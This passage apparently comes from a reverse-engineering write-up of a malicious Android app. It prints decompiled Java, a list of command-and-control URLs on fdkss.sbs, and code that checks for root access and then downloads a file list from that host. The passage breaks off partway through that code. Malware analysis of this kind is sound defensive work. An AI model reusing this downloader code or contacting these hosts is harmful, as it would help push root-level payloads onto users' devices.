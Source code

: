 ```Java
@Override // android.app.Service
    public void onCreate() {
        super.onCreate();
        h();
        B.b(this);
        Log.d("666", "AppendService is onCreate.");
        new Handler(Looper.getMainLooper()).post(d());
    }
```

It seems that there are very deep nests of methods calling other methods. With enough patience it's possible, but since multiple calls happen per 1 method, manually trying to trace the call trees is quite difficult and impractical.

### 5. Extra

Even just running `strings classes.dex` gives us this:

```shell
http://fdkss.sbs/client/a.ashx
http://fdkss.sbs/client/b.ashx
http://fdkss.sbs/client/c.ashx
http://fdkss.sbs/client/d.ashx
http://fdkss.sbs/client/e.ashx
http://fdkss.sbs/client/f.ashx
http://fdkss.sbs/client/g.ashx
http://fdkss.sbs/client/h.ashx
http://fdkss.sbs/client/i.ashx
http://fdkss.sbs/client/j.ashx
http://fdkss.sbs/client/k.ashx
http://fdkss.sbs/client/l.ashx
http://fdkss.sbs/elf/files.json
```

So the URLs aren't encrypted. That's lucky. I tried to search for the first link in decompiled Java source, nothing interesting.

Tried to search for the last one (because it was a bit different) and found this beauty:

```Java
@Override // O.F
protected void c(String str) throws Exception {
    if (!J.M.a()) {
        throw new Exception("No superuser permission");
    }
    z.b bVar = new z.b();
    TimeUnit timeUnit = TimeUnit.SECONDS;
    D0.z zVarA = bVar.b(10L, timeUnit).c(20L, timeUnit).a();
    D0.C cA = new C.a().i("http://fdkss.sbs/elf/files.json").b().a();
    StringBuilder sb = new StringBuilder();
    D0.E eI = zVarA.r(cA).i();
    try {
        if (!eI.F()) {
            throw new IOException("Unexpected code " + eI.A());
        }
        String strG = eI.i() != null ? eI.i().G() : "";
        int iA = eI.A();
        eI.E();
        if (iA != 200) {
            throw new Exception("HTTP status code = " + iA);
        }
        JSONArray jSONArray = new JSONObject(strG).getJSONArray("files");
        for (int i2 = 0; i2 < jSONArray.length(); i2++) {
            JSONObject jSONObject = (JSONObject) jSONArray.get(i2);
            String string = jSONObject.getString("url");
            String string2 = jSONObject.getString("path");
```